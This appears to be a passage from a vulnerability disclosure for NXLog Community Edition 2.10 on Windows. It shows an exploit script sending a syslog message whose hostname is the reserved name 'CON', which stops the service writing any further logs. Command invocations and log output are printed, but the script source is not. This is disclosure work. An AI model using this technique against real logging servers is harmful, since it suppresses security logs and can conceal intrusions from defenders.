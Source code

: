 
### 2.1.2 Test :
With my python script I can just send a Syslog message for test if Nxlog service create directory. 

The name of directory is based on the **HOSTNAME** field of the Syslog payload. (See configuration file)

So :
````bash
./syslog-exploit.py -ip 192.168.1.54 -os 3
````

Directory and log are created :
````powershell
ls "C:\Program Files (x86)\nxlog\data\"
Mode                LastWriteTime         Length Name
----                -------------         ------ ----                                                                                                               d-----       29/11/2020     19:31                123soleil
-a----       29/11/2020     19:52            257 nxlog.log

ls "C:\Program Files (x86)\nxlog\data\123soleil"
Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----       29/11/2020     19:31             75 123soleil.log 

cat "C:\Program Files (x86)\nxlog\data\123soleil\123soleil.log"
<30>Sep 14 14:09:09 123soleil dhcp service[warning] 110 Silence is golden
````


---

### 2.1.3 Exploit :
Now if I specify a hostname with a forbidden name :
````bash
./syslog-exploit.py -ip 192.168.1.54 -os 2
````

In Nxlog internal log :
````bash
cat 'C:\Program Files (x86)\nxlog\data\nxlog.log' 
````

Return :
````text
2020-11-29 19:30:57 INFO nxlog-ce-2.10.2150 started
2020-11-29 19:50:45 ERROR CreateDir is TRUE but couldn't create directory: C:\Program Files (x86)\nxlog\data\CON; Invalid directory name.
````

All new logs sent by Syslog clients will no longer be written to the filesystem. 

Because the nxlog service is in an unknown state because it tries to create a directory that cannot be created.

For illustrate, if I try to send a new syslog payload to server I have this log in internal log :
````text
2020-11-29 19:30:57 INFO nxlog-ce-2.10.2150 started
2020-11-29 19:50:45 ERROR CreateDir is TRUE but couldn't create directory: C:\Program Files (x86)\nxlog\data\CON; Invalid directory name.
2020-11-29 19:52:48 ERROR last message repeated 3 times
````
